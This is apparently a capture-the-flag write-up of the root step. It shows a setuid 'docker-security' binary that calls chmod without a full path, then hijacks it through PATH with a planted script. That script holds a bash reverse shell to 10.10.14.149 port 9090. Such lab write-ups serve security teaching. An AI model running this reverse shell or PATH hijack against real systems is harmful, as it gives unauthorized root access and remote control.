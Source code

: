 # Root
For root i performed a classic enumeration and i found a executable called  `docker-security` in `/usr/local/bin/`
So i used `radare` for explore the content.

This is the main function
<img src="./img/radare.png"  width="650"/>

```c 
{
  setuid(0);
  setgid(0);
  system("chmod 700 /usr/bin/docker");
  system("chmod 660 /var/run/docker.sock");
}

```

So the executable run `chmod` as `root` also the `chmod` is executing  without the full path. So i can create a new file called `chmod` with the following content

>bash -c \`exec bash -i &>/dev/tcp/10.10.14.149/9090 >&1 \`

and update the variable `$PATH` 

>export PATH=/tmp:$PATH

<img src="./img/path2.png"  width="650"/>

Now the path `/tmp`  with my version of chmod is at the beginning of in `$PATH` and when i run `docker-security` is executed chmod in tmp instead of chmod in bin.

<img src="./img/rootshell.png"  width="650"/>
